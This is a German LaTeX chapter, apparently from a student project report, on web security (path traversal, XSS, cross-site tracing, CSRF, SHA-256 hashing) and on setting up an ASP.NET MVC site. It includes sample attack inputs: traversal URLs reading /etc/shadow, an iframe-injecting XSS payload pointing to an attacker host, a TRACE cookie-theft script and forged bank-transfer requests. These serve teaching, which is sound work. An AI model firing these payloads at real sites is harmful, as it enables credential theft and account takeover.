\renewcommand{\theauthor}{Marcel Stering}
\chapter{Webseite}
\label{sec:Webseite}
\section{Webseite-Security}
\label{sec:Security}
In diesem Abschnitt beschäftigen wir uns mit der Security der Webseite.
Wir behandeln wie man das sichere einloggen in eine Webseite gewähren kann, 
wie man sich vor XSS/CSRF schützen kann, wie man verhindert das eine SQL Injection
möglich ist und wie man Passwörter speichert. Dazu werden wir einige Code Beispiele anführen.

\subsection{Login Handling}
\label{sec:Login}
\subsection{Two-Factor-Auth}
\label{sec:tfa}
\subsubsection{Was ist Two-Factor Authentication}
Die Zweifaktorauthentifizierung (2FA) ist eine Art der Multi-Faktor-Authentifizierung. Es ist eine Methode, mit der der Benutzer über zwei verschiedene Faktoren seine Identität bestätigen kann.\\ \\
Die dabei geltenden Faktoren lauten:
\begin{enumerate}
\item etwas, das sie wissen
\item etwas, das sie haben
\item etwas, das sie sind
\end{enumerate}
Ein gutes Beispiel für die Zweifaktorauthentifizierung ist die Behebung von Geld an einem Geldautomaten. Nur die korrekte Kombination einer Bankkarte (die der Benutzer besitzt) und einer PIN (die der Benutzer weiß) ermöglicht die Durchführung der Transaktion.\\ \\Als neueres Beispiel könnte man das Anmelden von seinem Google Account nehmen, wo man sein Passwort wissen muss und mit seinem Handy bestätigen, das man sich einloggen will, also etwas das man weiß und etwas was man hat. 

(wikipedia)
\subsection{Path-Traversal}
\label{sec:Path-Traversal}
Als Path-Traversal wird eine Security Lüge bezeichnet die es einem Angreifer, durch Manipulation des URLs auf Daten zuzugreifen, auf die er nicht zugriffen können sollte. 
\subsubsection{Grundprinzip}
Man sollte nicht auf Dateien, die sich außerhalb vom Web-Directory befinden, von einem Webserver zugreifen können. Beim Path-Traversal versucht man als Angreifer durch beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. 
//
Man benutzt ../ als Parameter zum Wechseln des Verzeichnisses.
\subsubsection{Beispiele}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele kann man sehen, das einem diese Schwäche ermöglicht lokale Passwörter auszulesen und Windows Configs.  
\\ \\
Unter Linux ist diese Schwäche kritischer da man hier auf die komplette Festplatte Zugriff bekommt. In Windows kann man sich nur im lokalen Directory bewegen, wo sich die Website befindet.
\\ \\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese code einzufügen mit dem man sich noch mehr Möglichkeiten verschafft. \\ \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}
\subsubsection{Protection Path-Traversal}
\subsection{XSS Protection}
\label{sec:xss}
\subsubsection{Allgemeines über XSS}
XSS steht für Cross-Site-Scripting und ist eine Security schwäche, welche es ausnutzt das eine Webadmin nicht davon ausgeht das eine gewisse Eingabe getätigt wird. Meist nutzt ein Hacker diese Schwäche um einen bösartigen Code auszuführen, zu Beispielen werden wir später noch kommen. Trotz dem hohen Bekanntheitsgrad von XSS und findet man Cross-Site-Scripting immer noch aus der OWASP Top 10, welche die häufigsten Security Vulnerabilities Jahr für Jahr auflistet. Bei dem ausnutzen von XSS greift man sein 'Opfer' nicht direkt an, sondern man nutzt diese Schwachstelle, um bspw. ein bösartiges Skript zu platzieren, welches dann von einem nichts ahnenden User aufgerufen wird. 
\subsubsection{XSS Targets:}
\begin{enumerate}
\item Javascript (wobei Javascript das beliebteste ist) 
\item VBScript 
\item ActiveX
\item Flash
\end{enumerate}
\subsubsection{Warum ist Javascript so beliebt?}
Der Grund hierfür ist das Javascript quasi eine fundamentale Einheit einer Webseite ist. Man wird kaum eine Webseite finden, welche kein Javascript verwendet.
\subsubsection{Beliebte Angriffsvektoren}
\begin{enumerate}
\item Session Hijacking
\item Website-Defacements 
\item Phishing
\end{enumerate}
\subsubsection{Session Hijacking}
Beim Session Hijacking werden, wie es einem der Name schon verrät, Sessions von Webseiten übernommen. Meist bemerkt ein User gar nicht das seine Session von einem Angreifer übernommen worden ist. Das Hauptziel ist dabei das überwachen von Aktivitäten bzw. Datendiebstahl. Sehr problematisch wird es, wenn eine Admin Session zugänglich wird und der Angreifer so auf einen Admin Account zugreifen kann. Bei so einem Vorfall hat der Angreifer dann alle Rechte und kann sich so zusagen austoben, wie er will. Und hier reicht schon eine kleine XSS Vulnerability aus um dies zu bewerkstelligen. 
\subsubsection{Website-Defacements}
Website-Defacements hat etwas von digitalem Graffiti. Hier wird XSS genutzt um sich den Zugriff auf die Webseite zu verschaffen und sie dann optisch zu verändern. 
\subsubsection{Phishing}
Im Prinzip ist Phishing die Intention mit Fake Webseiten oder Emails an vertrauliche Daten eines Users zu kommen. Ein Beispiel wäre mit einem gefälschten Facebook Login an die Login Daten eines Benutzers zu kommen. 
\\ \\Doch wie hängt das mit XSS zusammen?\\ \\Bei einer Url hat man sehr oft eine Abfragezeichenfolge. Diese werden benutzt um beliebige Werte zu übergeben. Beispielweise würde die Url 
\url{ http://www.Sehr-Sichere-Webseite.com/program?value} den Parameter value and das Programm schicken.Und hier kommt Cross-Site-Scripting ins Spiel und man könnte wieder etwas bösartiges übergeben.\\ \\Ein Angreifer könnte jetzt diese Schwäche ausnutzen um zu eine anderen Website weiterzuleiten und selbst noch etwas hinzufügen, beispielsweise der Abfrage von Login Daten. \\ \\Beispiel\\ \\
\url{"http://www.EineFinanzseite.com/?q=
%3Cscript%3Edocument.write%28%22%3Ciframe+src%3D%27
http%3A%2F%2Fwww.BoeseSeite.com%27+
FRAMEBORDER%3D%270%27+WIDTH%3D%27800%27+HEIGHT%3D%27640%27
+scrolling%3D%27auto%27%3E%3C%2Fiframe%3E%22%29%3C%2Fscript%3E&...=...&... "}
\\ \\
Wobei die Modulo Buchstaben in Hexadezimal folgendes darstellen
\\ 3C : <
\\ 3E : >
\\ 28 : (
\\ 22 : "
\\ 3D : =
\\ 27 : '
\\ 3A : :
\\ 2F : /
\\ 29 : )\\ \\
Es ergibt sich daraus \\ \\
\url{http://www.EineFinanzseite.com/?q=<script>document.write("<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>")</script>&...=...&...">}
\\ \\Beim Ausführen wird dann HTML Code eingefügt 
\\ \\
<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>
\\ \\
Diese IFrame beinhaltet jetzt Code von der Bösen Seite und ermöglicht dem Angreifen eingegebene Daten vom User zu sehen. 
\subsubsection{Cross-Site-Tracing XST}
Beim Cross-Site-Tracing wird XSS und die HTTP-Methoden TRACE oder Track verwendet. TRACE ermöglicht dem Client, zu sehen, was am anderen Ende der Anforderungskette empfangen wird, und diese Daten für Test- oder Diagnoseinformationen zu verwenden.Die TRACK-Methode funktioniert auf gleich, ist jedoch spezifisch für IIS von Microsoft. Cross-Site-Tracing kann als Methode zum Stehlen von User-Cookies über Cross-Site-Scripting verwendet werden, auch wenn für das Cookie das Kennzeichen "HttpOnly" gesetzt ist und / oder der Autorisierungsheader des Benutzers verfügbar gemacht wird.
\\ \\
Obwohl die TRACE-Methode scheinbar harmlos ist, kann sie in einigen Szenarien erfolgreich eingesetzt werden, um die Berechtigungsnachweise legitimer Benutzer zu stehlen. Diese Angriffsmethode wurde 2003 von Jeremiah Grossman entdeckt, um den HttpOnly-Tag zu umgehen, den Microsoft in Internet Explorer 6 sp1 eingeführt hat, um Cookies vor dem Zugriff durch JavaScript zu schützen. Tatsächlich besteht eines der am häufigsten auftretenden Angriffsmuster in Cross Site Scripting darin, auf das document.cookie -Objekt zuzugreifen und es an einen vom Angreifer kontrollierten Webserver zu senden, damit er / sie die Sitzung des Opfers entführen kann. Das Markieren eines Cookies, da HttpOnly JavaScript den Zugriff auf das Cookie verbietet und es vor dem Senden an Dritte schützt. Die TRACE-Methode kann jedoch verwendet werden, um diesen Schutz zu umgehen und auf das Cookie selbst in diesem Szenario zuzugreifen.
\\ \\
Modernere Browser verhindern das TRACE über JavaScript gesendet werden kann.
\subsubsection{Beispiel}
\begin{lstlisting}
<script>
  var xmlhttp = new XMLHttpRequest();
  var url = 'http://127.0.0.1/';

  xmlhttp.withCredentials = true; // send cookie header
  xmlhttp.open('TRACE', url, false);
  xmlhttp.send();
</script>
\end{lstlisting}
\subsubsection{Wie gewährleisten wir XSS Protection}
Die Webseite beschränkt sich generell auf wenige Eingabe fenster wo eine Standard XSS versucht werden könnte. Alle diese Eingaben erlauben keine Tags oder Sonderzeichen. Auch Url Parameter können nie direkt gesendet werden und somit fällt auch der URL Faktor weg.
\\ \\
Alle Möglichen Eingabefelder
\\ \\

\includegraphics[width=\textwidth]{Webseite_XSS_img1}

\includegraphics[width=\textwidth]{Webseite_XSS_img2}

\includegraphics[width=\textwidth]{Webseite_XSS_img3}
\\ \\
In den URLS werden durch MVC und passende Implementierung nie Parameter gesendet bei denen man XSS Code einfügen könnte.\\ \\
Dadurch hat unsere Webseite eine Funktionierende XSS Protection

\subsection{XSRF/CSRF Protection}
\label{sec:csrf}
\subsubsection{Was ist XSRF/CSRF}
CSRF steht für Cross-Site Request Forgery. CSRF ist ein Angriff, bei dem das Opfer dazu gebracht wird, eine böswillige Anfrage zu übermitteln. Als Angreifer erbt man dabei die Identität und die Privilegien des Opfers und kann beispielsweise eine unerwünschte Funktion im Namen des Opfers ausführen. Bei den meisten Websites enthalten Browser-Anforderungen automatisch alle mit der Website verknüpften Anmeldeinformationen, z. B. Sitzungscookies des Benutzers, IP-Adresse, Anmeldeinformationen der Windows-Domäne usw. Wenn der Benutzer derzeit für die Seite authentifiziert ist, hat die Seite keine Möglichkeit, zwischen der vom Opfer gesendeten gefälschten Anfrage und einer vom Opfer gesendeten legitimen Anfrage zu unterscheiden.
\\ \\
Eine CSRF zielt oft darauf Daten zu Ändern. Beispielsweise das Kennwort und die Email eines Kontos oder das Kaufen eines Gegenstands.   der Angreifer erhält keine Antwort , sondern das Opfer. CSRF-Angriffe zielen daher auf Zustandsänderungsanforderungen ab.
\\ \\
Es ist manchmal möglich, den CSRF-Angriff auf der verwundbaren Seite selbst zu speichern. Das kann durch einfaches Speichern eines IMG- oder IFRAME-Tags in einem HTML-fähigen Feld oder durch einen komplexeren Cross-Site-Scripting-Angriff erreicht werden. Wenn der Angriff einen CSRF-Angriff in der Seite speichern kann, wird der Schweregrad des Angriffs erhöht. 

\subsubsection{Wie Funktioniert eine Solche Attacke}
Man baut sich eine bösartige URL oder ein bösartiges Skript und bringt das Opfer dazu den URL aufzurufen. 
\\ \\
Beispiel
\begin{lstlisting}
GET http://bank.com/transfer.do?acct=Angreiger&amount=1000 HTTP/1.1
\end{lstlisting}
Oder
\begin{lstlisting}
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
\end{lstlisting}
Auch eine Post Request ist möglich
\\ \\
\begin{lstlisting}
POST http://bank.com/transfer.do HTTP/1.1
acct=Angreifer&amount=1000
\end{lstlisting}
\subsubsection{Verhindern}
\url{https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-2.2}
\subsection{Hashes}
\label{hash-expl}
Wir beginnen die Erklärung von HASHes mit einem Beispiel.
\\ \\
Sagen wir, wir wollen ein File von einem Computer zu einem anderen Computer schicken und es ist sehr wichtig das wir feststellen können, das es nicht verändert wurde. Um das zu gewährleisten, gibt es HASH Algorithmen. Ein HASH ist eine Einwegfunktion, heißt man kann einen HASH für ein File berechnen aber nicht aus dem HASH das File holen. 

Drei Sachen sind bei einem HASH Algorithmus wichtig.
\begin{enumerate}
\item Geschwindigkeit
\item Ändert man ein 1-bit sollte der gesamte HASH anders sein
\item HASH Kollisionen verhindern 
\end{enumerate}

\subsubsection{HASH Kollisionen}

Sagen wir, wir haben ein wichtiges Dokument, das wir der Leitung in der IT schicken. Mit dem Dokument kommt der HASH damit die IT verifizieren kann das jenes Dokument auch das richtige ist. Ist es jetzt dem Hacker möglich das File zu bekommen und zu verändern, würde der HASH ein anderer sein. Ist der HASH algorithmus aber nicht richtig implementiert und somit nicht funktionsfähig ist, es möglich für das File den originalen HASH festzulegen.
\\ \\
Beispiele
\begin{enumerate}
\item MD5
\item SHA1
\end{enumerate}
Der Faktor Schnelligkeit ist sehr relevant, ist der Algorithmus zu langsam will ihn keiner nutzen, ist er aber zu schnell kann man recht einfach Dokument erstellen welches zwar anders ist aber den selben HASH als das Orginal hat.
\subsection{Wie funktioniert ein HASH Algorithmus}
Wie ein HASH Algorithmus grundsätzlich arbeitet werde ich anhand von SHA-256 erklären. 
\subsubsection{Allgemeines über SHA256}
SHA256(secure hash algorithm) ist ein kryptografischer HASH mit eine Zeichenlänge von 256 bits. Es ist eine Schlüssellose HASH-Funktion.
\\ \\
Eine Nachricht wird in jeweils 512 Blöcken (16 * 32 Bits) abgearbeitet und jeder block benötigt 64 Runden.
\subsubsection{Der Algorithmus}
Basis Operationen
\begin{enumerate}
\item Boolesche Operationen
\begin{enumerate}
\item AND
\item XOR
\item OR
\end{enumerate}
\item Bitweises Komplement
\item Integer-Addition Modulo $2^{32}$, bezeichnet mit A + B.
\end{enumerate}
Jede dieser Operationen arbeitet mit 32 Bit. Bei der letzten Operation wird diese von Binär in Integer übersetzt und in Dezimal Basis geschrieben.\\ \\
Wobei
\begin{enumerate}
\item RotR (A, n) bezeichnet die zirkulare Verschiebung von n Bits des Binärworts A nach rechts
\item ShR (A, n) bezeichnet die Rechtsverschiebung von n Bits des Binärworts A
\item AkB bezeichnet die Verkettung der Binärwörter A und B
\end{enumerate}
SHA256 benutzt folgende Funktionen\\

\includegraphics[width=300px,height=200px]{Website_SHA256_Functions}
\subsubsection{Das Padding}
Das Padding stellt sicher, dass die Nachricht ein Vielfaches von 512 Bits ist dafür wird folgendes getan.
\begin{enumerate}
\item Zuerst wird ein Bit 1 angehängt,
\item Als nächstes werden k Bits 0 angehängt, wobei k die kleinste positive ganze Zahl ist, so dass l + 1 + k $<=$ 448 ist
mod 512, wobei l die Länge der ursprünglichen Nachricht in Bits ist
\item Schließlich wird die Länge l < $2^{64}$ der ursprünglichen Nachricht mit genau 64 Bits und diesen Bits dargestellt
werden am Ende der Nachricht hinzugefügt
\end{enumerate}
Die Nachricht wird immer aufgefüllt, auch wenn die Anfangslänge bereits ein Vielfaches von 512 ist.
\subsubsection{Block decomposition}
Für jeden Block M $\in$ {0, 1} 512 , 64 Wörter aus 32 Bits wird folgendermaßem vorgegangen. 

\begin{enumerate}
\item Die ersten 16 werden durch Aufteilen von M in 32-Bit-Blöcke erhalten
\item Die restlichen 48 werden durch folgende Formel erhalten.
\end{enumerate}
Formel 1:
\\ \\

\includegraphics[width=150px,height=30px]{Webseite_SHA256_f1}
\\ \\Formel 2:\\ \\

\includegraphics[width=280px ,height=30px]{Webseite_SHA256_f2}
\\ \\
(was passiert hier)
\subsection{Password Hashes}
\label{sec:hash}
Wie die Wahl eines sicheren Passsworts vom Benutzer, ist es genau so wichtig für den Service Provider, dass dieser das Passwort seiner User hasht.

\section{ASP.NET MVC}
\label{sec:MVC}
In diesem Abschnitt beschäftigen wir uns mit ASP.NET MVC mit der unsere Webseite aufgebaut ist. Wir besprechen die Grundindention von MVC und was MVC ist. Wie die Webseite aufgebaut wurde werden wir anhand Code auszügen zeigen. Die beim MVC bekannten Views Controllers und Services werden aufgezeigt und erklärt. Ebenfalls wird behandelt wie die Links zu den Kalendern erzeugt und zur Verfügung gestellt werden. 

\subsection{Allgemeines MVC}
\label{sec:allgemein}
\subsection{Erstellung der Webseite}
Dieses Kapitel befässt sich damit wie man in Visual-Studio ein MVC-Website Projekt erstellen kann.\\ \\
Zunächst muss man sicherstellen das man alle benötigten Features installiert hat. Dafür geht man auf Datei -> Neues Projekt und klickt dann auf folgendes.\\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_features}
Im Installer überprüft man dann ob man folgende Features installiert hat.\\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Install}
Danach kann man ein MVC-Website Projekt erstellen dafür mach man folgendes.\\ \\
Schritt 1:\\
Zuerst müssen wir über File -> New -> Project, die Erstellung eines neuen Projekts einleiten.\\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt1}
Schritt 2:\\
Danach müssen wir unter dem Tab Web die ASP.NET Core Web Application wählen und ihr einen Namen zuweisen. Danach klicken wir auf Ok.\\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt2}
Schritt 3:\\
Nun muss das Modell gewählt werden, hier wählen wir die MVC Web-Application. Danach klicken wir auf Change Authentication. \\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt3}
Schritt 4:\\
In diesem Schritt müssen wir festlegen, das unsere Web-Anwendung User Daten speichert. \\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Schritt4}
Danach hat man erfolgreich eine MVC-Website erstellt und kann diese über IIS Express Lokal starten und testen. Macht man das ganze sieht man das ASP Template.

\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Done}
